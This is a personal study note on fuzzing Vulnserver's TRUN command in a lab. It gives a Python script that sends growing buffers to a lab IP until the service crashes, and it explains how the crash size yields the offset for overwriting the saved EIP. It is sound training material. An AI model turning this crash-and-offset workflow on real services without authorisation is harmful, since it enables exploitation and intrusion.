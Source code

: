
# Fuzzing
> Keep vulnserver and Immunity Debugger running from [spiking](spiking.md) section (run them with Admin privileges).

The difference between spiking and fuzzing is that in spiking we're *attacking multiple commands* in order to find vulnerable ones, and in fuzzing we're *attacking a single command* (which we know is vulnerable) in order to build an effective [buffer overflow](buffer-overflow-basics.md).
## Python Script
```python
`#!/usr/bin/python
import sys, socket
from time import sleep

# Create the buffer of 'A' characters
buffer = "A" * 100

while True:
	try:
		# Build the payload by appending the TRUN command to the buffer
		payload = "TRUN /.:/" + buffer

		# Create, open, and connect to the socket (connecting to target)
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect(('192.168.1.35',9999))

		# Send the payload to target
		print ("[+] Sending the payload...\n" + str(len(buffer)))
		s.send(payload)
		
		# Close connection and what 1 second
		s.close()
		sleep(1)

		# (if we haven't crashed) increase buffer length by 100 bytes & try again
		buffer = buffer + "A"*100
	except:
		# When the target crashes, print the number of bytes it took
		print ("The fuzzing crashed at %s bytes" % str(len(buffer)))
		sys.exit()`
```
In this script first we're creating a buffer of 100 `A` characters. Then, we're initiating a while loop in which our payload (the `TRUN` command + our `buffer`) is sent over the wire to the vulnerable program running at `192.168.1.35:9999`.

Each iteration of the while loop we send our payload, wait one second, then close the connection before finally increasing our buffer by 100 more `A` characters. When the program crashes, the `except` block will be triggered.

By putting all this in a `try...except`,  we're using the *crash of the vulnerable program* as a signal that we've successfully overwritten the instruction pointer (saved `EIP`), just like we did in the spiking step. 

The difference here is that when we crash we're *capturing the total amount of bytes (`A` characters)* we had to send *in order to crash the program*. The number of bytes will tell us *the offset from the `TRUN` command buffer on the stack to the saved`EIP`*.
### Why do we Need the Offset?
We need to know the offset between the vulnerable command on the stack `TRUN` and the saved `EIP` because our plan is to overwrite the *exact address of the saved `EIP`* with an address *we control*.

When compiled into a binary, the vulnerable program will *take up the same amount of addresses on the stack* on any (x86) machine it runs on as it does on our vulnerable machine right now. So the offset is static.

Once we know the offset, we can create our buffer overflow exploit using a payload of the same length as the offset. At the end of the payload, we place the address we want to send the CPU to. By the end, our payload will look something like this (replace `name` with `TRUN`):
![](/PNPT-pics/fuzzing-1.png)
> My [writeup on basic buffer overflow](https://trshpuppy.github.io/portfolio/writeups/basic-buffer-overflow)
## Running the Script
Once the script is finished, save it and remember to give it execution permissions using `chmod +x fuzz.py`. Make sure Immunity debugger is running w/ the vulnerable program attached and also running, then you can execute `fuzz.py`.

Once it crashes (around 2700 bytes) we can inspect the crash in Immunity:
![](/PNPT-pics/fuzzing-2.png)
We can see that the `EIP` wasn't overwritten, but that's okay. We're trusting that since the program crashed, the buffer length in bytes was long enough. So let's move on, working with *an offset around 3000 bytes*.

> [!Resources]
> -  [Vulnserver](https://thegreycorner.com/vulnserver.html) 
> - [Immunity Debugger](https://www.immunityinc.com/products/debugger/) 
> - My [own notes](https://github.com/trshpuppy/obsidian-notes) linked throughout the text.
> - My [writeup on basic buffer overflow](https://trshpuppy.github.io/portfolio/writeups/basic-buffer-overflow)
